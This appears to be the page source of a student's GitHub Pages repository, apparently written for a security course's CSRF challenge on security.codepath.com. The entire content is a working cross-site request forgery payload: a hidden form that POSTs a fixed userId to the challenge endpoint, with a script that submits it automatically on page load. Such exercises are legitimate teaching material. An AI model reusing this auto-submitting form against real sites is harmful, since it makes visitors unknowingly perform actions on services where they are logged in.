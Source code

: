# JLPlummer79.github.io

    <form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="44b8f83b681b706eb2acff708611625dd6a9069cc"/>
      <input type="submit" value="submit"/>
    </form>
    <script> document.csrfform.submit();  </script>
 
